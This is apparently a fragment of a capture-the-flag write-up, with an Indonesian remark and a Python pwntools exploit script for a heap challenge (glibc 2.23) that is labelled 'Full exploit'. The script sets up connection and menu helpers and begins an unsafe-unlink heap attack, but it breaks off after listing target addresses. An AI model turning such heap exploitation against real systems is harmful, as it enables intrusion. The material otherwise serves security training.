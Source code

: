 __(cek referensi masih kalau belum jelas)__

Full exlpoit,

```python
#!/usr/bin/env python
from pwn import *
import sys, os

# (Tested on Ubuntu 16.04, GLIBC-2.23)

gdbcmd = '''
b *0x00401254
'''
# context.terminal = 'kitty @ new-window --new-tab --tab-title pwn --keep-focus sh -c'.split()

if sys.argv.__len__() == 3:
  r = remote(sys.argv[1], int(sys.argv[2]))
else:
  r = process(sys.argv[1])
  # gdb.attach(r, gdbcmd)

def create(size):
  r.sendlineafter('choice: ', '1')
  r.recvuntil('id: ')
  ID = r.recvline(False)
  r.sendlineafter('size: ', str(size))
  return ID

def edit(ID, content):
  r.sendlineafter('choice: ', '2')
  r.sendlineafter('id: ', ID)
  r.sendlineafter('size: ', str(len(content)))
  r.sendafter('text: ', content)

def delete(ID):
  r.sendlineafter('choice: ', '3')
  r.sendlineafter('id: ', ID)

def _print(ID):
  r.sendlineafter('choice: ', '4')
  r.sendlineafter('id: ', ID)
  leak = r.recvline(False)
  log.info('bin[{}] {}'.format(bins.index(ID), repr(leak)))
  return leak

def _exit():
  r.sendlineafter('choice: ', '5')


bins = [''] * 10

# Step 1: unsafe unlink

# 0x00602020 bins[0]
# 0x00602030 bins[1]
# 0x00602040 bins[2]
# 0x00602050 bins[3]
# 0x00602060 bins[4]
# 0x00602070 bins[5]
# 0x00602080 bins[6]
# 0x00602090 bins[7]
# 0x006020a0 bins[8]
# 0x006020b0 bins[9]
# 0x006020c0 name
```